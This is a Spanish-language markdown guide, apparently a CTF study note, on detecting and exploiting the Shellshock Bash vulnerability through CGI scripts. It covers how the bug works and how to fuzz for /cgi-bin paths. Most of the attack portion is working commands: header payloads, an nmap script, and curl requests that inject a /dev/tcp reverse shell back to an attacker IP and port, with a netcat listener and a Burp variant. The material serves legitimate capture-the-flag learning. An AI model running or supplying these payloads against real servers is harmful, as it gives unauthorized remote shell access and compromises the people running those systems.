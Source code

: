 
# 🐚 Shellshock - Detección y Explotación en CTF

## Índice
- [🕵️‍♂️¿Cómo detectar un posible Shellshock?](#detectar)
- [🛠️¿En qué consiste?](#consiste)
- [🔍Reconocer pistas en HTTP](#reconocer)
- [🧪Ejemplo de payload para probar](#ejemplopayload)
- [🚀¿Cómo se inyectan?](#inyectan)
- [🎯¿Qué hace el payload?](#payload)
- [🚦¿Qué necesitas?](#necesitas)
- [🧑‍💻Ejemplo real](#ejemplo)
- [📝Notas adicionales](#notas)


---
<a name="detectar"></a>
## 🕵️‍♂️ ¿Cómo detectar un posible Shellshock?

Después de enumerar una máquina, si encontramos un servicio HTTP y realizamos un fuzzing, podemos descubrir una ruta como:

    /cgi-bin

Esto nos da pie para probar este tipo de ataque, ya que los scripts CGI suelen interactuar con Bash.

---
<a name="consiste"></a>
## 🛠️ ¿En qué consiste?

Shellshock permite que un atacante ejecute código arbitrario en el sistema, aprovechando cómo Bash procesa ciertas variables de entorno.

👉 El problema es que Bash permitía definir funciones en variables de entorno, pero continuaba interpretando código tras la función, permitiendo ejecución arbitraria.

Ejemplo:

    env X='() { :;}; echo Vulnerable' bash -c "echo Test"

Si el sistema es vulnerable, mostrará:

    Vulnerable
    Test

👉 Se ejecutó el `echo Vulnerable` fuera de la función.

---
<a name="reconocer"></a>
## 🔍 Reconocer pistas en HTTP

Si encuentras una URL sospechosa (por ejemplo `/cgi-bin/test.cgi`), puedes probar inyecciones en las siguientes cabeceras HTTP:

- User-Agent
- Referer
- Cookie

👉 Estas cabeceras a veces se pasan como variables de entorno a los scripts CGI.

---
<a name="ejemplopayload"></a>
## 🧪 Ejemplo de payload para probar

    () { :; }; echo; echo; /bin/bash -c "echo VULNERABLE"

O con cabecera:

    User-Agent: () { :; }; echo; echo; /bin/bash -c "id"

### Usar Nmap para automatizar:

    nmap --script http-shellshock --script-args uri=/cgi-bin/test.cgi -p 80 <IP>

---
<a name="inyectan"></a>
## 🚀 ¿Cómo se inyectan?

Como hemos dicho, normalmente en la cabecera User-Agent, pero también puede funcionar en Referer o Cookie.

### Ejemplo de inyección con curl:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO EN ESCUCHA> 0>&1" \
      "https://172.17.0.2:<PUERTO SI SE NECESITA>/cgi-bin/<RECURSO>.cgi"

### Desglose del comando:

| Parte del comando                                   | Significado                                                       |
|----------------------------------------------------|-------------------------------------------------------------------|
| curl                                               | Cliente para hacer peticiones HTTP                                |
| --silent                                           | No muestra progreso ni información extra                          |
| -k                                                 | Permite conexiones HTTPS sin verificar certificado (útil en CTFs) |
| -H                                                 | Añade una cabecera HTTP personalizada                             |
| User-Agent: ...                                    | Cabecera que contiene el payload de Shellshock                    |
| () { :; };                                         | Inicia la función vacía y luego el código malicioso               |
| /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1  | Intenta abrir una reverse shell hacia tu máquina                  |
| URL final                                          | El recurso vulnerable (normalmente en /cgi-bin/)                  |

---
<a name="payload"></a>
## 🎯 ¿Qué hace el payload?

Está enviando un User-Agent que explota Shellshock.

Si el servidor es vulnerable, ejecutará:

    /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1

👉 Esto crea una reverse shell (una conexión interactiva de Bash de vuelta a tu máquina).

---
<a name="necesitas"></a>
## 🚦 ¿Qué necesitas?

### 1️⃣ Tener un listener en tu máquina:

    nc -lvnp <TU PUERTO EN ESCUCHA>

### 2️⃣ Reemplazar en el curl:

- <TU IP> → tu IP (por ejemplo: 10.10.14.23 si usas HackTheBox)
- <TU PUERTO> → puerto en el que tienes nc escuchando (por ejemplo 4444)
- <PUERTO SI SE NECESITA> → si el server usa un puerto especial (443, 8443, etc.)
- <RECURSO> → el CGI vulnerable (por ejemplo: test.cgi)

---
<a name="ejemplo"></a>
## 🧑‍💻 Ejemplo real

### En escucha en tu máquina:

    nc -lvnp 4444

### Payload:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1" \
      "https://172.17.0.2/cgi-bin/test.cgi"

👉 Si todo sale bien, recibirás una shell interactiva en tu Netcat. 🚀

---
<a name="notas"></a>
## 📝 Notas adicionales

✅ El ataque también puede realizarse desde Burp Suite, con una cabecera como:

    User-Agent: () { ignored;}; /bin/bash -i >& /dev/tcp/<IP>/<PUERTO> 0>&1

✅ No es necesario probar directamente con reverse shell; puedes empezar con comandos simples como:

    User-Agent: () { ignored;}; /bin/bash -c "id"

Si ves una salida como:

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

→ ¡El servidor es vulnerable!

---


